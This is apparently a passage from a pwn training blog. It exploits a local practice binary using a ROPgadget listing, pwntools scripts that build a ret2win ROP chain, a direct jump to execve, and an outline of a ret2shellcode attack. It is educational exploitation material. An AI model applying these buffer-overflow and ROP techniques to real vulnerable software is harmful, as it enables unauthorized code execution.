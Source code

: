 #### Exploit [ret2win]: 

Firstly we can get all the gadgets/code snippets in the binary with [ROPgadget](https://github.com/JonathanSalwan/ROPgadget). Then lets take out the ones that we want.

```bash
python3 ROPgadget.py --binary ../Documents/pwn-train/pwn1/ret2shellcode
```

![](/assets/images/pwntraining1/pwntrain8.png)

We can pop the registers to put the values we want and since every gadget has a return attached to it, we can call win function after those gadgets.

```python
from pwn import *

p = process("ret2shellcode")
pause()
p.sendline(b"a"*0x60 + b"a"*8 + p64(0x000000000040129b) + p64(0xdeadbeef) + p64(0x0000000000401299) + p64(0xcafebabe) + p64(0) + p64(0x00000000004011a5))
p.interactive()
```

![](/assets/images/pwntraining1/pwntrain9.png)

#### Exploit [simpler version]: 

I know you went through all the struggle to set the arguments right, but if you can control the return address and jump literally anywhere, then why not just jump directly on the execve function. 

```python
from pwn import *

p = process("ret2shellcode")
p.sendline(b"a"*0x60 + b"a"*8 + p64(0x00000000004011d1)) # address to execve
p.interactive()
```
> Here we avoided the constraints and directly jumped to the execve funtion. Clever of you.

#### return 2 shellcode:

This is the third and final way that we will discuss in this blog. Do you remember the leak at the begining ? Yes we will use the leak to get a shell. This time ignore the win() function. Without the help of helper function get a shell yourself :D . 

Remember at the begining I said this binary is NX disabled. So we can basically store the commands that we want to excecute in buf variable and then jump back to the buf variable thereby excecuting whatever we want.

> A shellcode is a set of instruction that will give you a shell or does some function that you want when excecuted.

* First step is to store the leak in a variable. We will use **recvline** function here to recv the output given by the program.
* Write all the commands that you want to excecute to get a shell (pwntools has inbuilt functionalities :D ).
* Fill the gap between the return and the shellcode with dummy instructions called nop.
* Jump back to buf variable.
